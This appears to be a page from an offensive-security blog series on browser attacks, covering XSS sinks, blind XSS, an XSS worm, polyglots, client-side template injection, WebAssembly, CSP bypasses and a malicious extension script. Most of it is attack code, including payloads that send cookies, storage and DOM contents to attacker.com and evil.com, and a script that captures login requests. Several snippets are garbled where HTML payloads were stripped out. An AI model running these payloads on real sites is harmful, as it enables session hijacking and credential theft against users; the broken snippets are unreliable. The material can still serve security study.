

# The Hostile DOM: Deep Dive Technical Reference

::: danger Offensive Security Research
This document provides **exhaustive technical analysis** of browser-based attack vectors. All code examples are for educational and authorized security research purposes only.
:::

## Document Structure

This deep dive is organized into major attack categories:

1. **Browser Architecture & Instrumentation**
2. **Visual & UI Deception Attacks**
3. **Persistence & Background Execution**
4. **Code Injection & Execution**
5. **Credential & Session Theft**
6. **Permission & Extension Exploitation**
7. **Fingerprinting & Tracking**
8. **Advanced Attack Vectors** (Expanded Coverage)

---

## Part 4: Code Injection & Execution

### 4.1 Cross-Site Scripting (XSS): The Foundation

Cross-Site Scripting remains the **most prevalent and dangerous** web vulnerability, representing **~30% of all web security issues** according to OWASP Top 10.

#### XSS Attack Surface Analysis



#### Dangerous Sinks: Code Execution Vectors

::: code-group
```javascript [eval() - Direct Code Execution]
// DANGEROUS: String to executable code conversion
function processUserInput(input) {
  // Attacker controls: "alert('XSS')"
  const result = eval(input); // Executes arbitrary code
  return result;
}

// Exploitation
processUserInput("fetch('https://attacker.com/steal', {method: 'POST', body: document.cookie})");
```

```javascript [Function() Constructor - Dynamic Function Creation]
// DANGEROUS: Creates function from string
const userFunction = new Function('param', userInput);
// Equivalent to: function(param) { userInput }

// Exploitation
new Function('x', "return fetch('https://evil.com/log?' + document.cookie)")();
```

```javascript [innerHTML - HTML Injection to XSS]
// DANGEROUS: Inserts HTML without escaping
element.innerHTML = userInput;

// Exploitation: 
// Becomes: 
```

```javascript [document.write() - Direct DOM Injection]
// DANGEROUS: Writes directly to document
document.write(userInput);

// Exploitation: <script>alert('XSS')</script>
```

```javascript [setTimeout/setInterval - Code Execution Delays]
// DANGEROUS: Executes string as code
setTimeout(userInput, 1000);

// Exploitation: "fetch('https://evil.com/steal?' + document.cookie)"
```

```javascript [Script Element Manipulation]
// DANGEROUS: Dynamic script loading
const script = document.createElement('script');
script.src = userInput; // Attacker controls URL
document.head.appendChild(script);

// Exploitation: https://attacker.com/malicious.js
```
:::

### 4.2 Advanced XSS Exploitation Techniques

#### Blind XSS: No Immediate Feedback

Blind XSS occurs when the payload executes in a context the attacker cannot directly observe, such as:

- **Admin panels** processing user-submitted data
- **Internal applications** with restricted access
- **Background processing** systems
- **Logging/monitoring** interfaces

```javascript [Blind XSS Payload with Exfiltration]
// Payload that executes silently and exfiltrates data
const payload = `
  // Collect comprehensive victim data
  const data = {
    url: location.href,
    cookies: document.cookie,
    localStorage: JSON.stringify(localStorage),
    sessionStorage: JSON.stringify(sessionStorage),
    userAgent: navigator.userAgent,
    referrer: document.referrer,
    timestamp: new Date().toISOString(),
    dom: document.documentElement.outerHTML.substring(0, 1000) // First 1KB of DOM
  };
  
  // Exfiltrate via multiple channels
  const img = new Image();
  img.src = 'https://attacker.com/log?' + btoa(JSON.stringify(data));
  
  // Backup exfiltration
  fetch('https://attacker.com/collect', {
    method: 'POST',
    mode: 'no-cors', // Avoid CORS issues
    body: JSON.stringify(data)
  }).catch(() => {
    // If fetch fails, try WebSocket
    const ws = new WebSocket('wss://attacker.com/ws');
    ws.onopen = () => ws.send(JSON.stringify(data));
  });
`;

// Execute payload
eval(payload);
```

#### Self-Propagating XSS: Worm-like Behavior

```javascript [XSS Worm that Spreads to Other Users]
// Infects chat application and spreads to all users
function xssWorm() {
  // Check if already infected
  if (window.xssWormActive) return;
  window.xssWormActive = true;
  
  // Hook into chat input
  const originalSend = window.sendMessage;
  window.sendMessage = function(message) {
    // Append worm payload to every message
    const infectedMessage = message + ' ';
    
    // Send infected message
    originalSend(infectedMessage);
    
    // Also call original function
    return originalSend.apply(this, arguments);
  };
  
  // Infect all existing chat messages on page
  document.querySelectorAll('.chat-message').forEach(msg => {
    if (!msg.infected) {
      msg.innerHTML += ' ';
      msg.infected = true;
    }
  });
  
  // Spread to other pages via localStorage
  localStorage.setItem('worm', btoa(xssWorm.toString()));
  
  // Auto-execute on page load
  const script = document.createElement('script');
  script.textContent = 'if(localStorage.worm){eval(atob(localStorage.worm))}';
  document.head.appendChild(script);
}

// Execute worm
xssWorm();
```

#### Mutation XSS: Bypassing Input Filters

```javascript [DOM Mutation-Based XSS]
// Bypasses filters that only check initial input
function mutationXSS() {
  // Create a text node with safe content
  const safeNode = document.createTextNode('Safe content');
  document.body.appendChild(safeNode);
  
  // Later mutate it to dangerous content
  setTimeout(() => {
    // This mutation happens after filters have run
    safeNode.nodeValue = '';
    
    // Force re-rendering
    const temp = document.body.innerHTML;
    document.body.innerHTML = temp;
  }, 100);
}

// Execute
mutationXSS();
```

### 4.3 Polyglot Payloads: Multi-Context Execution

Polyglots are payloads that are valid in **multiple execution contexts**, allowing them to bypass different types of filters.

#### GIF + JavaScript Polyglot

```javascript [Image that Executes as JavaScript]
// This is both a valid GIF image AND valid JavaScript
// When loaded as <script src="polyglot.gif">

GIF89a/* // GIF header + JS comment
alert('XSS')// // JS payload + GIF comment
*/;

// The file is:
// - Valid GIF: Shows as 1x1 transparent pixel
// - Valid JS: Executes alert when loaded as script
```

#### Advanced Polyglot: Multiple Execution Paths

```javascript [Universal Polyglot Payload]
const polyglot = `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`;

// This payload works in multiple contexts:
// 1. <script> tags: Executes as JavaScript
// 2.  : onerror handler fires
// 3. <a href=> : javascript: protocol executes
// 4. HTML injection: Breaks out of various contexts
// 5. CSS injection: */ closes comment, executes JS
```

#### Content-Type Confusion Polyglot

```javascript [JSON that Executes as JavaScript]
// Server serves this as "application/json"
// But browser executes it as JavaScript due to <script> tag

/* 
{
  "data": "safe json",
  "status": "ok"
}
//*/

alert('XSS via JSON confusion');
// This executes because /* */ comments out the JSON
```

### 4.4 Client-Side Template Injection (CSTI)

Modern web applications use client-side templating engines that can be exploited for code execution.

#### AngularJS Template Injection

```javascript [AngularJS CSTI Exploitation]
// Vulnerable: {{userInput}}
// Attacker input: {{constructor.constructor('alert("XSS")')()}}

// Full exploitation chain
const angularPayload = `
  // Access global scope
  {{constructor.constructor('alert("XSS")')()}}
  
  // File system access (in older Angular)
  {{constructor.constructor('require("fs").readFileSync("/etc/passwd")')()}}
  
  // Prototype pollution to XSS
  {{constructor.prototype.__defineGetter__('x', constructor.constructor('alert("XSS")'))}}
  {{x}}
`;

// Usage in vulnerable app
const vulnerableHTML = `<div>{{userInput}}</div>`;
```

#### React dangerouslySetInnerHTML Exploitation

```javascript [React CSTI via dangerouslySetInnerHTML]
// Vulnerable component
function Comment({ content }) {
  return <div dangerouslySetInnerHTML={{ __html: content }} />;
}

// Exploitation: Bypass React's XSS protection
const reactPayload = `
   
      key.startsWith('__reactInternalInstance')
    );
    
    // Extract sensitive data
    const instance = window[reactInternal];
    const props = instance.memoizedProps;
    
    // Exfiltrate
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify(props)
    });
  ">
`;
```

#### Vue.js Template Injection

```javascript [Vue.js CSTI Exploitation]
// Vulnerable: {{userInput}}
// Attacker input: {{_openBlock.constructor('alert("XSS")')()}}

// Advanced exploitation
const vuePayload = `
  // Access Vue instance
  {{$root.constructor('alert("XSS")')()}}
  
  // Prototype pollution
  {{Object.prototype.__defineGetter__('x', $root.constructor('alert("XSS")'))}}
  {{x}}
  
  // Access component data
  {{$data}}
  {{$props}}
  {{$attrs}}
`;
```

### 4.5 WebAssembly Exploitation

WebAssembly (WASM) provides near-native performance and can be exploited for advanced attacks.

#### WASM-based Code Obfuscation

```javascript [WASM Module for Obfuscated Execution]
// Compile malicious JavaScript to WebAssembly
const wasmCode = `
  (module
    (func $malicious (export "run")
      ;; WebAssembly implementation of malicious code
      ;; Can include crypto operations, data exfiltration, etc.
    )
  )
`;

// Load and execute
WebAssembly.instantiateStreaming(fetch('malicious.wasm'))
  .then(obj => obj.instance.exports.run());
```

#### WASM Memory Corruption

```javascript [WASM Memory Exploitation]
// WASM modules can corrupt JavaScript heap
const memory = new WebAssembly.Memory({ initial: 1 });

// Export memory to JavaScript
WebAssembly.instantiate(moduleWithMemory, {
  env: { memory }
});

// Now JavaScript can read/write WASM memory
const buffer = new Uint8Array(memory.buffer);
buffer[0] = 255; // Potential heap corruption
```

### 4.6 Content Security Policy (CSP) Bypass Techniques

#### CSP Bypass via Trusted Scripts

```javascript [CSP Bypass using Trusted Domains]
// CSP allows scripts from trusted.com
// Attacker compromises trusted.com or finds open redirect

// Open redirect on trusted.com: /redirect?url=evil.com
const bypassPayload = `
  <script src="https://trusted.com/redirect?url=https://evil.com/malicious.js">
  </script>
`;

// Or JSONP endpoint abuse
const jsonpBypass = `
  <script src="https://trusted.com/api?callback=evilFunction"></script>
  <script>
    function evilFunction(data) {
      // Execute malicious code
      eval(atob('YWxlcnQoJ1hTUycp')); // alert('XSS')
    }
  </script>
`;
```

#### Strict CSP Bypass via Service Workers

```javascript [Service Worker CSP Bypass]
// Service Worker can intercept and modify CSP headers
self.addEventListener('fetch', event => {
  // Intercept CSP header
  if (event.request.url.includes('script')) {
    event.respondWith(
      fetch(event.request).then(response => {
        const newHeaders = new Headers(response.headers);
        // Remove CSP restrictions
        newHeaders.delete('Content-Security-Policy');
        newHeaders.set('Content-Security-Policy', "script-src 'unsafe-inline' 'unsafe-eval'");
        
        return new Response(response.body, {
          status: response.status,
          statusText: response.statusText,
          headers: newHeaders
        });
      })
    );
  }
});
```

#### Nonce Reuse Attacks

```javascript [CSP Nonce Prediction and Reuse]
// Predict or steal CSP nonces
function stealNonce() {
  // Monitor script loading
  const observer = new PerformanceObserver(list => {
    list.getEntries().forEach(entry => {
      if (entry.name.includes('script')) {
        // Extract nonce from script element
        const script = document.querySelector(`script[src="${entry.name}"]`);
        if (script && script.nonce) {
          // Reuse nonce for malicious script
          const maliciousScript = document.createElement('script');
          maliciousScript.nonce = script.nonce;
          maliciousScript.textContent = 'alert("XSS")';
          document.head.appendChild(maliciousScript);
        }
      }
    });
  });
  
  observer.observe({ entryTypes: ['resource'] });
}
```

### 4.7 Browser Extension XSS

Extensions run with elevated privileges and can be exploited for persistent XSS.

#### Extension Content Script XSS

```javascript [Malicious Extension Content Script]
// manifest.json
{
  "content_scripts": [{
    "matches": ["<all_urls>"],
    "js": ["content.js"],
    "run_at": "document_start"
  }]
}

// content.js - Runs on every page
function injectXSS() {
  // Inject persistent XSS payload
  const script = document.createElement('script');
  script.textContent = `
    // Monitor for sensitive data
    const originalFetch = window.fetch;
    window.fetch = function(...args) {
      if (args[0].includes('/api/login')) {
        // Log credentials
        console.log('Credentials captured:', args[1].body);
      }
      return originalFetch.apply(this, args);
    };
  `;
  document.head.appendChild(script);
}

injectXSS();
```

<!-- ---

**Next in the series:**
- [Hostile DOM: Credential Theft](/projects/security_blog/dom_exploits/hostile-dom-theft) - Session hijacking and token extraction techniques
 -->
